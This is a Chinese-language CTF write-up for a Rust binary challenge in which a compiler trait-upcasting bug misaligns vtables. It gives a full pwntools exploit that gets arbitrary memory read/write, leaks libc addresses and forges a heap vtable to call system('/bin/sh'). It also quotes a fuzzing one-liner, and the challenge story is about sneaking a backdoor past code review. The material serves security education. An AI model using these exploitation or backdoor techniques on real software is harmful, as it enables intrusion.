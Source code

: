 # [Binary] 完美的代码

- 命题人：lrh2000
- 发现：400 分
- 解密：300 分

## 题目描述

<p>小E为某开源软件贡献代码十年之久，终于成为了该软件的核心开发者。可是，小E并不想为爱发电，他决定向该软件中注入后门，以便盗取神秘货币发大财。</p>
<p>过去了这么多年，小E后知后觉地发现这款软件的核心代码都已经用Rust重写了，想要同往常一样在C/C++代码中假装无意插入一个内存安全漏洞的好日子一去不复返。小E意识到通过常规手段悄悄插入一个足够隐秘的后门似乎并没有那么容易。于是，他编写了一段 <strong>完美的代码</strong>，这段代码顺利通过代码评审并合入到了主干。</p>
<p>可是，小E还是顺利完成了他的邪恶计划，问题出在哪里呢？完美的代码意味着 <strong>完美的程序</strong> 吗？</p>
<p><strong>说明：</strong></p>
<ul>
<li>让程序发生段错误可以获得 Flag 1</li>
<li>拿到 shell 或执行命令 <code>cat ./flag2.txt</code> 可以获得 Flag 2</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>本题的技术原理可参考 <a target="_blank" rel="noopener noreferrer" href="https://github.com/rust-lang/rust/issues/131813">https://github.com/rust-lang/rust/issues/131813</a></li>
</ul>
<p>除此之外，还有如下两个和 Flag 直接相关的提示：</p>
<ul>
<li>Flag 1：如果不想看技术原理，或许可以直接手玩一下？</li>
<li>Flag 2：调试一下 Flag 1 的崩溃，或许可以想办法做到任意内存读写？在这之后，堆上的虚表指针是不是有一些神秘作用呢？</li>
</ul>
</div>

**[【附件：下载题目源码（binary-saferustplus.zip）】](attachment/binary-saferustplus.zip)**

**【终端交互：连接到题目】**

## 预期解法

这题的出题思路是之前正常开发的时候突然蹦出来个段错误，十分疑惑，最后调试了下发现竟然是 Rust 编译器的问题。~~感觉可以用来注入后门，~~ 那不如先出道题吧。

### Flag 1：发现

怎么发现哪里有问题呢？首先题面暗示问题不在源代码里，但在编译之后的二进制文件里。预期解法：
 - 这题是个菜单题，但内部并没有维护复杂状态，其实本质不同的输入也就只有十几种或者最多几十种，手动全部尝试一遍就能发现异常了（如果输入离谱一点基本就段错误了）。懒得手动尝试也可以写个程序自动尝试，或者直接 fuzzing 。
 - 如果注意力惊人，也可以根据源代码猜一下问题在哪，比如定义了一堆 trait 并用了 `trait_upcasting` ，那么可能这块有问题概率比较大，然后去逆向二进制中对应模块。这个确实比较难，实际好像也没有选手是这么做出来的。

### Flag 2：解密

分析一下 Flag 1 中的段错误，可以看出是虚表错位，也就是调用 `put` 实际调用的是 `put_unchecked`，那么也就可以任意写入了。

正好栈上有个 `is_admin` 的布尔值，把它置为真，就可以任意读写内存，也可以泄漏 libc 里的地址。

不过这题 `main` 函数不会返回，所以不太好覆盖栈上的返回地址，但是堆上的虚表可以随便改。所以只要构造一个假的虚表，把里面的函数指针填成 `system`，就可以拿到 shell 或者执行 `cat ./flag2.txt` 了。

[利用程序：](sol/exp.py)

```py
from pwn import *

p = remote('127.0.0.1', 8080)

_created_counter = 0

def create():
    global _created_counter
    _created_counter += 1

    # Create
    p.sendlineafter(b'Enter the choice:\n', b'1')
    if _created_counter == 1:
        # Local
        p.sendlineafter(b'Enter the choice:\n', b'3')
    else:
        # Boxed
        p.sendlineafter(b'Enter the choice:\n', b'1')
    # Size
    p.sendlineafter(b'Enter the size:\n', b'1024')
    # Read/write
    p.sendlineafter(b'Enter the choice:\n', b'3')

create()
create()

def write8(off, val, sl=0):
    # Write
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', str(sl).encode())
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Value
    p.sendlineafter(b'Enter the value:\n', str(val).encode())
    # Unwrap
    p.sendlineafter(b'Enter the choice:\n', b'1')

def read8(off):
    # Read
    p.sendlineafter(b'Enter the choice:\n', b'2')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', b'0')
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Unchecked
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Result
    p.recvuntil(b'Result: ')
    return int(p.recvline().decode().strip())

def write64(off, val):
    for i in range(0, 8):
        write8(off + i, (val >> i * 8) & 0xff)

def read64(off):
    res = 0
    for i in reversed(range(0, 8)):
        res = (res << 8) | read8(off + i)
    return res

# is_admin: 0x98(%rsp)
# local_data: 0xa8(%rsp)

write8(-16, 1)

# (gdb) x/20a $rsp
# 0x7ffe65eecac0:	0x5aeb2a9d9810 <_ZN3run4main17hf2eb20adc216d115E>	0x724b6fe6024a <__libc_start_call_main+122>
# 0x7ffe65eecad0:	0x7ffe65eecbc0	0x5aeb2a9db520 <main>
# 0x7ffe65eecae0:	0x12a9c3040	0x7ffe65eecbd8
# 0x7ffe65eecaf0:	0x7ffe65eecbd8	0x920e9a292183a1ec
# 0x7ffe65eecb00:	0x0	0x7ffe65eecbe8
# 0x7ffe65eecb10:	0x5aeb2aa1dd28	0x724b7007b020 <_rtld_global>
# 0x7ffe65eecb20:	0x6df251f4b421a1ec	0x769845e52585a1ec
# 0x7ffe65eecb30:	0x0	0x0
# 0x7ffe65eecb40:	0x0	0x7ffe65eecbd8
# 0x7ffe65eecb50:	0x7ffe65eecbd8	0x9bae95e730d0200
#
# (gdb) disp/i $pc
# 1: x/i $pc
# => 0x5aeb2a9dbe73 <_ZN3run6traits6CanPut13put_unchecked17hee53d1baa5fbab4bE+3>:	movzbl (%rcx,%rsi,1),%eax
# (gdb) p/a $rcx
# $3 = 0x7ffe65eec528
#
# (gdb) p __libc_system
# $4 = {int (const char *)} 0x724b6fe85490 <__libc_system>

in_libc = read64(0x7ffe65eecac8 - 0x7ffe65eec528)
system = in_libc + 0x724b6fe85490 - 0x724b6fe6024a

stack = read64(0x7ffe65eecaf0 - 0x7ffe65eec528)
base = stack + 0x7ffe65eec528 - 0x7ffe65eecbd8

vec = read64(-32)
data = read64(vec - base + 32)
vptr = read64(vec - base + 40)

write64(data - base, u64(b'/bin/sh\x00'))
write64(vec - base + 40, vec + 48 - 0x38)
write64(vec - base + 48, system)

write8(0, 0, 1)

p.interactive()
```

### 优秀选手解法

 - 下面的脚本可以秒出 Flag 1，参见清华大学选手 [Vursc 的 writeup](../../players_writeup/1273#binary完美的代码) （确实是“完美的解法”）：
> 完美的解法（出结果用不了一秒钟）：
>
> ```
> while
>     grep -ao '[0123]' /dev/urandom | tee in | ./run >/dev/null 2>err;
>     grep -q assert err;
> do :; done
> ```
 - 其实不利用 `is_admin` 也不调用 `system` 同样能拿 Flag 2，参见清华大学选手 [tony 的 writeup](../../players_writeup/700#完美的代码)：
> 而利用这点修改了别的`BoxedData`的data指针后，也就能任意位置读取了。
>
> [ .. ]
>
> 总之我采取了另一个方法，利用的是调用的虚函数的返回值是会打印出来的这一点，首先执行`open64(./flag2.txt, 0)`，返回值`fd`会被打印到命令行（其实不打印的话也大概率可以猜是3）。然后再调用`read(fd, buf, ...)`，当然，第三个参数是没法控制的，因为override的虚函数只有前两个参数，只好听天由命希望这个值足够大就行。事实上，确实work了，最后读取`buf`的内容就是flag2了。
